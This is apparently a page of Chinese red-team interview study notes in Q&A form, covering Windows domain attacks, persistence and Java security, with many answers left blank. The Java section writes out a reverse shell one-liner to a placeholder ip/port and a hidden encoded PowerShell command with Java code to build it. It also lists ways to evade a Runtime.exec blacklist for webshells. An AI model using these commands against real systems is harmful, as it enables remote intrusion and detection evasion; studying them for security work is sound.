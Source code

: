 ### 红队方向之域环境

Q：域内委派是什么？  
A：

Q：PTH 原理

Q：PTH 利用条件

### 红队方向之权限维持

Q：dll 劫持，dll 注入

## java 安全

Q：java 反射是什么
A：在程序运行时动态加载类并获取类的详细信息，从而操作类或对象的属性和方法，提高程序的灵活性。Java 本身是静态语言，但反射特性允许运行时动态修改类定义和属性等，达到了动态的效果

Q：java 反射可以做哪些事情
A：

Q：java 中反弹 shell 命令
A：java 中直接执行 bash -i >& /dev/tcp/ip/port 0>&1 会失败，因为有>符号，表示重定向，需要对其进行编码
bash -c {echo,base64 的 payload}|{base64,-d}|{bash,-i}
针对 Powershell 应该使用以下的命令
powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc 特殊的 Base64
这个特殊的 Base64 和普通 Base64 不同，需要填充 0，算法如下

    public static String getPowershellCommand(String cmd) {
        char[] chars = cmd.toCharArray();
        List<Byte> temp = new ArrayList<>();
        for (char c : chars) {
            byte[] code = String.valueOf(c).getBytes(StandardCharsets.UTF_8);
            for (byte b : code) {
                temp.add(b);
            }
            temp.add((byte) 0);
        }
        byte[] result = new byte[temp.size()];
        for (int i = 0; i < temp.size(); i++) {
            result[i] = temp.get(i);
        }
        String data = Base64.getEncoder().encodeToString(result);
        String prefix = "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ";
        return prefix + data;
    }

Q：Runtime.exec 加入黑名单还有什么方式执行命令
A：类似 JSP Webshell 免杀

大致方法有这些：使用基本的反射，ProcessImpl 和 ProcessBuilde，JDNI 和 LDAP 注入，TemplatesImpl，BCEL，BeansExpression，自定义 ClassLoader，动态编译加载，ScriptEngine，反射调用一些 native 方法，各种 EL（SPEL 和 Tomcat EL 等）

Q：RMI 和 LDAP 类型的 JNDI 注入分别在哪个版本限制（★）
